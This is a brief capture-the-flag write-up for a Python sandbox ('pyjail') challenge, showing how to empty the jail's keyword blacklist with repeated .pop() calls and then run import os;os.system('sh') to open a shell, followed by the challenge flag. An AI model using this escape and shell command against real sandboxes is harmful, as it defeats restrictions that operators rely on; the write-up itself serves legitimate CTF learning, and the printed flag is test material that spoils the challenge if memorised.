 # Big Blacklist | NoobMaster
- Description: That's a big blacklist for a pyjail challenge, don't you think?
# Writeup
Almost everything is blacklisted, but we can use .pop()
.pop() gives the last value of an array and removes it. We can use this code - 
```py
[blacklist.pop() for i in range(len(blacklist))]
```
This removes everything in the blacklist. Then you can do a simple import os and os.system('sh') - 
```py
import os;os.system('sh')
```

# Flag - n00bz{blacklist.pop()_ftw!_7a5d2f8b}
